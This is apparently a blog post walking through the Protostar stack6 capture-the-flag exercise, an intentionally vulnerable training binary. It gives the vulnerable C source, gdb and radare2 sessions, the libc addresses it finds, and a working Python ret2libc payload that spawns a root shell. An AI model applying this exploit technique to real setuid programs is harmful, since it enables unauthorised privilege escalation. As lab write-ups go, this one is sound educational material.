 ```yaml
---
layout: post
title: Protostar Writeup - stack6
updated: 2018-10-09 21:45
tags: [ctf, tech, binary exploit, protostar]
---
```


## Protostar - stack6

Moving on to the next challenge. Here's where things get interesting. This challenge is actually based on a security mechanism(not really but similar), it basically won't execute anything on the stack, so how do we exploit this binary? First have a look at the code:

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();  
}
{% endhighlight %}

Let's take a look at the "getpath()" method. If you've done the previous challenges this is simple, well almost. With one catch. The return address is restricted. Let's take a closer look at what this means...

{% highlight shell %}
$ gdb stack6
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 2367
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
{% endhighlight %}

Using this command we can see the layout of how the memory is used for the process.
From the C code we see that we can't return to any address starting with "0xbf".
From the map above we can see that this is roughly where the stack resides.
What this means is that executing instructions from the stack is a no go.

So, now what? We can't return to any address on the stack, injecting code is useless.
We will now 'try harder'. After a little investigation I came across return oriented programming or ROP for short.
What is ROP? ROP is a way of constructing your payload by using existing code present. So instead of using our stack address to return to, We use an existing address to return to. What we're essentially doing is creating a fake stack frame. It looks kind of like this.

![Call Stack Layout](https://upload.wikimedia.org/wikipedia/commons/thumb/d/d3/Call_stack_layout.svg/588px-Call_stack_layout.svg.png)

In order to call an existing function we need to follow this layout as it is a convention.
We're going to make use of the C standard library functions to craft our exploit. This is a modified ROP known as ret2libc. So basically we'll be making use of C existing library functions.

First things first, let's find the offset.

{% highlight shell %}
~ >>> ragg2 -P 256 -r                          
AAABAACAADAAEA...QABRABSABTABUABVABWABXAB
{% endhighlight %}

Use this as a pattern to find the offset.

{% highlight shell %}
(gdb) r
Starting program: /opt/protostar/bin/stack6
input path please: AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA...
...

Program received signal SIGSEGV, Segmentation fault.
0x41416241 in ?? ()

~ >>> r2 -                                     
 -- Radare2, what else?
[0x00000000]> wopO 0x41416241
80
{% endhighlight %}

So once that's done we need to go function hunting. We need 2 function addresses, one "system()" and the other "exit()". Note that "exit()" is here to satisfy the calling convention as our return pointer. It can be any function, but this goes for a much cleaner way to do things.

We can get those two fairly trivially using gdb.

{% highlight shell %}
$ gdb ./stack6
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}

So those are the addresses we require, note them down somewhere, we'll use them in our exploit.
But wait, there's more we need a way to tell "system()" what parameters we've given it.
We can do this by following the calling convention. But since we can't store anything on the stack, we need another way. Why not use libc itself again, since we're ret2libc'ing anyways. What we need is an address to a string which says "/bin/sh", for a way to get "system()" to spawn a shell for us.

Here's how we do that...(assuming we know where libc is located)

{% highlight shell %}
$ strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh
{% endhighlight %}

Now this address is actually the offset. So we need to add this to the beginning of the address at which libc is loaded. From the memory map way above, we see that it starts at "0xb7e97000" so the actual location of the string will be "0xb7e97000 + 0x11f3bf". This will be important for our exploit.

Now we can finally craft our exploit...

{% highlight python %}
import struct
def go():
  libc_start = 0xb7e97000
  string_offset = 0x11f3bf
  string_loc = libc_start + string_offset
  system_loc = 0xb7ecffb0
  exit_loc = 0xb7ec60c0
  padding = 'A' * 80
  payload = padding
  payload += struct.pack("I", system_loc)
  payload += struct.pack("I", exit_loc)
  payload += struct.pack("I", string_loc)
  print payload
go()
{% endhighlight %}

Exploiting in 3...2...1...using cat to hold the input.

{% highlight shell %}
$ (python /tmp/exploit.py; cat) | ./stack6
user@protostar:/opt/protostar/bin$ (python /tmp/exploit_stack6.py; cat) | ./stack6
input path please: got path AAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
{% endhighlight %}
And there you have it. Another fun challenge, this time by reusing existing resources by ROP.
I was pretty amused by this, I hope that you are too. Until next time, cheers!

P.S. The exploit-exercises website is most probably [dead](https://www.reddit.com/r/LiveOverflow/comments/9jyqmm/exploit_exercises_website_not_working/).

### Sites

[Call Stack](https://en.wikipedia.org/wiki/Call_stack#Stack_and_frame_pointers)
[Phrack](http://phrack.org/issues/49/14.html)
[Detailed ret2libc](https://0x00sec.org/t/exploiting-techniques-000-ret2libc/1833/2)
